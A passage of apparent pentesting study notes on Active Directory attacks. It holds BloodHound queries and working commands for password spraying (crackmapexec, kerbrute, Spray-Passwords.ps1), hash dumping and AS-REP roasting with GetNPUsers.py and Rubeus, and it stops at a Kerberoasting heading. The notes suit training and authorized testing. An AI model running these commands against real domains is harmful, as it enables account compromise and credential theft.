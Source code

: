 Start bloodhound
```bash
bloodhound
```
login -> Upload data.

Search (raw data):
```
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
```
Services and Sessions
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```
`List all Kerberoastable Accounts` -> Node info -> Service Principal Names.

## Attack on AD authentication
### Password Attacks
Check domain's account policy as domain user:
```powershell
net accounts
```
Pay attention on those three values:
```
Lockout threshold
Lockout duration (minutes)
Lockout observation window (minutes)
```
**Password Spraying:**
**Use `Spray-Passwords.ps1` on Windows** :
```powershell
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
(Automatically identifies domain users and sprays a password against them)
**Use `crackmapexec` on Kali** :
```bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
if `Pwn3d!` in output -> the user has `administrative privilege` -> use `--sam` to dump hashes.
**Use `kerbrute` on Windows** :
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### AS-REP Roasting
Condition: `Do not require Kerberos preauthentication` -> enabled
**Perform attack on Kali:**
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
**Perform Attack on Windows**:
```powershell
.\Rubeus.exe asreproast /nowrap
```
**Mode in Hashcat: `18200 | Kerberos 5, etype 23, AS-REP`**
### Kerberoasting
Abuse a service ticket and attempt to crack the password of the service account.
**Perform Attack on Windows:**